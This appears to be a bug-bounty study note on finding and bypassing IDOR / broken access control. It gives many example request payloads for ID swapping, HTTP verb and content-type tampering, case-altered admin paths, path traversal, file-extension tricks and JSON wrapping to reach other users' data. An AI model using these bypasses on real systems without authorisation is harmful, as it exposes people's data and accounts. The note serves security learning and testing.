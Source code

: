 # IDOR or Brocken Access Control

Tags: Brocken Access control, Server Side
Multi-select: bugbountybootcamp, yashar

tools: authorize and authmatrix

[https://github.com/Quitten/Autorize](https://github.com/Quitten/Autorize)

[https://github.com/SecurityInnovation/AuthMatrix](https://github.com/SecurityInnovation/AuthMatrix)

Insecure Direct Object Reference also know as **Broken Access Control**  

Broken Access Control:

all you need for this section is looking for URL’s and query's.

so if we have a url like this:

www.blab.com/?id=256

you must test it and change the id number 256 to like 277 or anything else…

if the page rendered the user number ID 277 its vulnerable to IDOR 

if the page is not rendered the user ID and goes to 403 or 404 error you must bypass and look for other ways

now whats other ways?

1- look trough for headers and watch which custom parameters have a chained ID or number 

2- create 2 account and compare the numbers in the headers

3-change the account 1 url to account 2; if the information of account 2 shown in account 1 you can call it IDOR and test to other users.

in the some cases you may have the id parameter in url but when you change it to other numbers it show 403 or 404 error.

so you may have test the other parameters like the tickets id or something else.  

[https://example](https://example).com?user-key=Somee9giehg

[https://example.com](https://example.com)?id=2425235

https://example.com?user=somefsa&pass=359ejfo

```
POST /changepass
uid=256
user-key=Someet2y
```

### IDOR Types:

- BodyManipulation: to changing the parameters of radio buttuns and api.
    
    ```
    https://insecure-website.com/login/home.jsp?admin=true
    https://insecure-website.com/login/home.jsp?role=1
    ```
    
- URLTampering: to changing the ID or others query.
    
    ```jsx
    https://insecure-website.com/myaccount?id=456
    ```
    
- HTTPRequests: like verb tampring.
- MassAssignment: look and change everything.
    
    ```objectivec
    POST / HTTP/1.1
    X-Original-URL: /admin/deleteUser
    ...
    ```
    

### Bypass the IDORS:

encode or the code the parameters

make the application request somthing paramerters that not exist(parameters tampring)

chagne request (verb tampring)

change the request file type:

GET /get-user-id=256

GET /get-user-id=256.json

change HTTP method

```
GET /users/delete/victim_id  ->403
POST /users/delete/victim_id ->200
```

Try replacing parameter names

```
Instead of this:
GET /api/albums?album_id=<album id>

Try This:
GET /api/albums?account_id=<account id>

Tip: There is a Burp extension called Paramalyzer which will help with this by remembering all the parameters you have passed to a host.
```

Path Traversal

```
POST /users/delete/victim_id          ->403
POST /users/delete/my_id/..victim_id  ->200
```

change request content-type

```
Content-Type: application/xml ->
Content-Type: application/json
```

swap non-numeric with numeric id

```
GET /file?id=90djbkdbkdbd29dd
GET /file?id=302
```

Missing Function Level Acess Control

```
GET /admin/profile ->401
GET /Admin/profile ->200
GET /ADMIN/profile ->200
GET /aDmin/profile ->200
GET /adMin/profile ->200
GET /admIn/profile ->200
GET /admiN/profile ->200
```

send wildcard instead of an id

```
GET /api/users/user_id ->
GET /api/users/*
```

Never ignore encoded/hashed ID

```
for hashed ID ,create multiple accounts and understand the ppattern application users to allot an iD
```

Google Dorking/public form

```
search all the endpoints having ID which the search engine may have already indexed
```

Bruteforce Hidden HTTP parameters

```
use tools like arjun , paramminer
```

Bypass object level authorization Add parameter onto the endpoit if not present by defualt

```
GET /api_v1/messages ->200
GET /api_v1/messages?user_id=victim_uuid ->200
```

change file type

```
GET /user_data/2341        -> 401
GET /user_data/2341.json   -> 200
GET /user_data/2341.xml    -> 200
GET /user_data/2341.config -> 200
GET /user_data/2341.txt    -> 200
```

json parameter pollution

```
{"userid":1234,"userid":2542}
```

Wrap the ID with an array in the body

```
{"userid":123} ->401
{"userid":[123]} ->200
```

wrap the id with a json object

```
{"userid":123} ->401
{"userid":{"userid":123}} ->200
```

Test an outdata API version

```
GET /v3/users_data/1234 ->401
GET /v1/users_data/1234 ->200
```
Dont Forget to Watch this video:
[Easy IDOR hunting with Autorize? (GIVEAWAY)](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.youtube.com/watch?v=2WzqH6N-Gbc&ved=2ahUKEwjVxNT5-5GFAxW4g_0HHRFrDZMQwqsBegQIDRAF&usg=AOvVaw0CrjWvnu95-d4SjqIBFBev)